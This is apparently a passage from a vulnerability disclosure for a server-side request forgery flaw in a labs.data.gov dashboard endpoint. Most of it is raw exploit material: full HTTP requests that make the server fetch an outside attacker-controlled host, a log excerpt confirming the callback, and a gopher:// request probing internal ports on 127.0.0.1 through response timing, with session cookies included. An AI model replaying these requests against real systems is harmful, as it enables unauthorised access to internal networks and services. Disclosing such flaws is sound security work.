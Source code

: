 **Request:
```
GET /dashboard/Campaign/json_status/http%3A%2F%2F51.178.47.176%2Fo.php%3Fs%3Dhttp%3A%2F%2F51.178.47.176%2Ftest HTTP/1.1
Host: labs.data.gov
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://labs.data.gov/
Origin: https://labs.data.gov
Connection: close
Cookie: citrix_ns_id=Hy43iMSeu576Lp58094fjUHkl800002; citrix_ns_id_.data.gov_%2F_wat=AAAAAAV4ytKcmI9TQbtC6F-69voRSIbVjCK07dl7qXIBbQ5EmPBKsIBouZogVupHcU2zOox8StZ7pRKbC-9vZwDFhBiC&; citrix_ns_id_.data.gov_%2F_wlf=AAAAAAU-prV_gslbEzfmUonFMegl6K4rwWmSb0AgGNdOiu_KqZxNqS7MTRJH4E2khZ1I1H_vxi62MjWDVm1NE0tFYVz1ScfnzhNtqiMZKEubTi-1PQ==&AAAAAAVVAacibcMeQaa-JKcUyH-R0itjt2o5kIUgVaclQb7SjFgL4eFSChKpRUFWw5I6mpFBaG331jUn5d3UQLI_WQvnxl7pF0SjzIKjWb9DdUnLhg==&; PHPSESSID=e8f8976b883b67ce8a7e5adad97720f5; SimpleSAMLSessionID=c58916c46288786181646876f8540efb; ci_session_dashboard=edfaf301c4e59b7738f32c01e3d3b7da962efe7c
Upgrade-Insecure-Requests: 1
DNT: 1
```

**Part of log file:
```
ler"
18.213.100.122 - - [10/Jun/2020:23:25:50 +0200] "HEAD /test HTTP/1.1" 200 200 "-" "Data.gov data.json crawler"
18.213.100.122 - - [10/Jun/2020:23:25:50 +0200] "HEAD /test HTTP/1.1" 200 200 "-" "Data.gov data.json crawler"
18.213.100.122 - - [10/Jun/2020:23:25:50 +0200] "GET /test HTTP/1.1" 200 205 "-" "Data.gov data.json crawler"
```

Check if local port is OPEN due to response time or timeout and gopher protocol.
--

Closed  port "4445" scenario
---
Request
```
GET /dashboard/Campaign/json_status/gopher%3A%2F%2F127.0.0.1%3A4445 HTTP/1.1
Host: labs.data.gov
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.1.1 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://labs.data.gov/
Origin: https://labs.data.gov
Connection: close
Cookie: citrix_ns_id=Hy43iMSeu576Lp58094fjUHkl800002; citrix_ns_id_.data.gov_%2F_wat=AAAAAAV4ytKcmI9TQbtC6F-69voRSIbVjCK07dl7qXIBbQ5EmPBKsIBouZogVupHcU2zOox8StZ7pRKbC-9vZwDFhBiC&; citrix_ns_id_.data.gov_%2F_wlf=AAAAAAU-prV_gslbEzfmUonFMegl6K4rwWmSb0AgGNdOiu_KqZxNqS7MTRJH4E2khZ1I1H_vxi62MjWDVm1NE0tFYVz1ScfnzhNtqiMZKEubTi-1PQ==&AAAAAAVVAacibcMeQaa-JKcUyH-R0itjt2o5kIUgVaclQb7SjFgL4eFSChKpRUFWw5I6mpFBaG331jUn5d3UQLI_WQvnxl7pF0SjzIKjWb9DdUnLhg==&; PHPSESSID=e8f8976b883b67ce8a7e5adad97720f5; SimpleSAMLSessionID=c58916c46288786181646876f8540efb; ci_session_dashboard=edfaf301c4e59b7738f32c01e3d3b7da962efe7c
Upgrade-Insecure-Requests: 1
DNT: 1
```
